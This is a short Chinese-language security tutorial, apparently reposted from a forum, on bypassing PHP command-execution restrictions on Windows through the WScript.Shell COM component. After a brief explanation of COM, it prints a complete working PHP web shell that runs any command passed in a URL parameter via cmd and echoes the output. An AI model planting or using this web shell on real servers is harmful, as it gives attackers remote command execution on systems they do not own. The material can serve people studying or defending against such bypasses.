 # 利用系统组件 window com 绕过

> 原文：[https://www.zhihuifly.com/t/topic/3468](https://www.zhihuifly.com/t/topic/3468)

## 利用系统组件 window com 绕过

**1\. 利用条件**

*   Windows
*   php5.x（高版本扩展要自己添加）
*   支持COM组件

**2\. 基本原理**

COM组件它最早的设计意图是，跨语言实现程序组件的复用
COM组件由以Win 32动态连接库（DLL）或可执行文件（EXE）形式发布的可执行代码所组成。遵循COM规范编写出来的组件将能够满足对组件架构的所有要求。COM组件可以给应用程序、操作系统以及其他组件提供服务；自定义的COM组件可以在运行时刻同其他组件连接起来构成某个应用程序；COM组件可以动态的插入或卸出应用。

![image](img/f4d90ad57567c7fdb61135764cf52a1d.png)

```
<?php
$command=$_GET['a'];
$wsh = new COM('WScript.shell'); // 生成一个COM对象 Shell.Application也能
$exec = $wsh->exec("cmd /c".$command); //调用对象方法来执行命令
$stdout = $exec->StdOut();
$stroutput = $stdout->ReadAll();
echo $stroutput;
?> 
```

![image](img/82fa05584b8930441cf076240ca30100.png)